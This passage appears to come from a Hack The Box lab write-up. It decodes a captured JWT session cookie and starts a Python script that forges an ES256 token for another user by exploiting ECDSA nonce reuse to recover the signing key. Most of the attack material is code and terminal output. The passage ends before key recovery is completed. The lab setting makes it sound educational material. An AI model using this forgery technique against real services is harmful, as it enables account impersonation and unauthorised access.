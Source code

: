 Using the code itself and passing our current cookie to `decode_jwt` we can see the `json` structure used when creating the `json` web token
```
#!/usr/bin/python3
import json, base64

def unb64(data):
    l = len(data) % 4
    return base64.urlsafe_b64decode(data + "=" * (4 - l))

def decode_jwt(jwt):
    _header, _data, _sig = jwt.split(".")
    data = json.loads(unb64(_data))
    return data

print(decode_jwt("eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InJlYmlydGgiLCJlbWFpbCI6InJlYmlydGhAdGVzdC5jb20iLCJhY2NvdW50X3N0YXR1cyI6dHJ1ZX0.eYnS_vULThniQuqVB4EoIAQ6QPx1-xBxeCubuZRr8S7epVLYzF8OpYgEcphK1oVueeaQEq7P9uPmD9YLxOiddA"))  
```
Then we get
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ python3 jwt.py 
{'username': 'rebirth', 'email': 'rebirth@test.com', 'account_status': True}

```

The idea is to simulate user tony, however, the variables k and d will take random values for each execution, so if we create it, it will fail the verification of `firma`.
There is a blog show that 
`ECDSA: Revealing the private key, if same nonce used (with SECP256k1)`
Using the method in the article, we can create a script that uses the two `jwts` we created when registering the user to calculate the `JWT` of user tony by extracting the k and d values. In this way, when the same value `firmarlo` is used, it can pass the verification.
```
#!/usr/bin/python3
from ecdsa.ecdsa import generator_256, Public_key, Private_key, Signature
from Crypto.Util.number import bytes_to_long, long_to_bytes
import libnum, hashlib, sys, json, base64

def b64(data):
    return base64.urlsafe_b64encode(data).decode()

def unb64(data):
    l = len(data) % 4
    return base64.urlsafe_b64decode(data + "=" * (4 - l))

def sign(msg):
    msghash = hashlib.sha256(msg.encode()).digest()
    sig = privkey.sign(bytes_to_long(msghash), k)
    _sig = (sig.r << 256) + sig.s
    return b64(long_to_bytes(_sig)).replace("=", "")

def create_jwt(data):
    header = {"alg": "ES256"}
    _header = b64(json.dumps(header, separators=(',', ':')).encode())
    _data = b64(json.dumps(data, separators=(',', ':')).encode())
    _sig = sign(f"{_header}.{_data}".replace("=", ""))
    jwt = f"{_header}.{_data}.{_sig}"
    jwt = jwt.replace("=", "")
    return jwt

jwt1 = "eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InJlYmlydGgiLCJlbWFpbCI6InJlYmlydGhAdGVzdC5jb20iLCJhY2NvdW50X3N0YXR1cyI6dHJ1ZX0.eYnS_vULThniQuqVB4EoIAQ6QPx1-xBxeCubuZRr8S7epVLYzF8OpYgEcphK1oVueeaQEq7P9uPmD9YLxOiddA"
```
